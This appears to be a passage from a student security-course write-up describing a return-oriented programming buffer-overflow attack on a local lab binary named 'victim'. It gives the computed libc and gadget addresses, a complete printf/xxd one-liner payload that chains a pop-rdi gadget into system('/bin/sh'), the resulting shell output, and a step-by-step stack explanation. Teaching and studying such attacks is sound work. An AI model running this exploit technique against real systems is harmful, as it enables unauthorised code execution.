 ```
```

Our new addresses are:

buffer: 0x7fffffffe5a0
libc base: 0x7ffff7a15000
system: 0x7ffff7a15000 + 0x46590
gadgets: 0x7ffff7a15000 + 0x22b9a
bash: 0x7fffffffe5a0 + 64d + 8d + 24d = 0x7fffffffe600

In the first terminal, we run the new command:
```
vagrant@vagrant-ubuntu-trusty-64:~/csc480-project2$ (((printf %0144d 0; printf %016x $((0x7ffff7a15000+0x22b9a)) | tac -rs..; printf %016x 0x7fffffffe600 | tac -rs..; printf %016x $((0x7ffff7a15000+0x46590)) | tac -rs.. ; echo -n /bin/sh | xxd -p) | xxd -r -p) ; cat) | ./victim
0x7fffffffe5a0
What's your name?

Hello, !


ls
grep  README.md  shell	shell.c  shellcode  shell.dSYM	victim	victim.c
```

For the new solution, we fill the buffer and EBP register with 0s. 144 0s equate to 72 bytes, 64 bytes are for the buffer and 8 for the EBP register. The return address is then replaced with the location of the gadget. Next, the address of /bin/sh, which points to the string of "/bin/sh" at the end of our attack statement, which is an offset from the buffer beginning. Note the 24d is specified for the 3x8 bytes, which are the address lengths of the gadget, "/bin/sh", and system(). Finally, the system() address is at the end, right before "/bin/sh".

When the main() function returns, the instruction pointer will jump to the location of the code for the gadget. ESP is incremented during popping.

In the gadget, pop RDI will get the value at the location of the stack, which is the address of "bin/sh". ESP is incremented. At retq, the instruction pointer will jump to address of system(). ESP is incremented.

system() will finally execute "/bin/sh" because of the argument in register RDI, which contains the address of "/bin/sh".


### Conclusion
Despite various security measures placed by the compiler to prevent buffer overflows, we were still able to pull off the attack using return-oriented programming.

This video explains the example very nicely except call stack address should be flipped as the ESP is incremented when popping: https://youtu.be/XZa0Yu6i_ew?t=183
